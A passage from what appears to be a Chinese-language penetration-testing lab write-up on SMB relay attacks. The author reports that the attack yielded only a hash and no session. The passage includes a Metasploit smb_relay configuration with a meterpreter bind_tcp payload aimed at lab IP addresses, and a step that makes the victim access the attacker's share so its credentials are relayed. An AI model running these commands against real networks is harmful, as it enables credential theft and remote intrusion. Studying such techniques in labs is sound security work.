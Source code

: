 这里我就直接说了并未成功，只返回了hash值，但是会话并未建立起来，我查询了一下，确实网上很多文章都未成功，不过也有说64位系统未成功，但是32位系统成功了，这.......所以我也不想切换32位系统进行测试了，如果只有32位系统能够成功，那真的就太鸡肋了，同时还有一种情况，目前更新的msf都是新的，会不会是msf模块中的一个小bug问题，所导致的。

```
use exploit/windows/smb/smb_relay
set smbhost 192.168.3.142   #攻击目标
set lhost 192.168.10.20   #设置本地 IP
set autorunscript post/windows/manage/migrate
set payload windows/meterpreter/bind_tcp  ##设置正向连接
set rhost 192.168.3.142 #设置连接目标
run
```

![image-20230730075637984](assets/image-20230730075637984.png)

#### 2.2.2.2. 访问设置

这里需要在被控主机上访问攻击主机地址，简单来说，就是被控主机去访问攻击机，将自生的账户密码相当于发送给攻击机，让攻击机获取到账号密码再去访问域控，实现攻击机中继拦截上线。

同时需要注意要使用administrator权限去操作。

```
dir \\192.168.10.20\c$
```

![image-20230730075652980](assets/image-20230730075652980.png)
